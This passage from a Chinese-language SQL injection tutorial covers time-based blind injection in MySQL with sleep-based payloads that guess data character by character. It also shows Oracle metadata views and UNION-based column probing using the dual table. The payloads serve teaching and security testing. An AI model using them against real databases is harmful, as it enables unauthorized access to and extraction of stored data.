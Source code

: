 + 截取字符串第一个字符，并转换为 ASCII 码
  `AND if(hex(mid(user(), 1, 1)) = 1, sleep(3), 1)`
  `AND if(hex(mid(user(), 1, 1)) = 2, sleep(3), 1)`
  ……
  不断更换 ASCII 码直到出现延时 3 秒就可以猜测出第一个字符。

+ 递归截取字符串每一个字符，分别于 ASCII 码比较
  `AND if(hex(mid(user(), L, 1)) = N, sleep(3), 1)`
  注：L 的位置代表字符串的第几个字符，N 的位置代表 ASCII 码。

不仅在 MySQL 中存在延时函数，在 SQL Server、Oracle 等数据库中也都存在类似功能的函数，如 SQL Server 的 waitfor delay、Oracle 中的 DBMS_LOCK.SLEEP 等函数。

---

### Oracle

#### 1.获取元数据

Oracle 也支持查询元数据，下面是 Oracle 注入常用的元数据视图：

```sql
 user_tablespaces 视图，查看表空间
`SELECT tablespace_name FROM user_tablespaces`

 user_tables 视图，查看当前用户的所有表
`SELECT table_name FROM user_tables WHERE rownum = 1`

 user_tab_columns 视图，查看当前用户的所有列，如查询 user 表的所有列：
`SELECT column_name FROM user_tab_columns WHERE table_name = 'users'`

 all_users 视图，查看 ORacle 数据库的所有用户
`SELECT username FROM all_users`

 user_objects 视图，查看当前用户的所有对象 (表名称、约束、索引)
`SELECT object_name FROM user_objects`
```

#### 2.UNION 查询

Oracle 与 MySQL 一样不支持多语句执行，不像 SQL Server 那样可以用分号隔开从而注入多条 SQL 语句。

+ 获取列的总数
  获取列总数方法与前面两种数据库类似，依然可以使用 ORDER BY 子句来完成。
  
  另一种方法是利用 UNION 关键字来确定，但是 Oracle 规定，每次查询时后面必须跟表的名称，否则查询将不成立。
  
  在 Oracle 中可以使用：
  `UNION SELECT null, null, null …… FROM dual`
  这里的 dual 是 Oracle 中的虚拟表，在不知道数据库中存在哪些表的情况下，可以使用此表作为查询表。
  
  然后获取非数字类型列，即可以显示出信息的列：
  `UNION SELECT 'null', null, null, …… FROM dual`
  `UNION SELECT null, 'null', null, …… FROM dual`
  
  把每一位的 null 依次用单引号 ’ 引起来，如果报错，则不是字符串类型的列；如果返回正常，则是字符串类型的列，就可以在相应的位置插入查询语句获取信息。
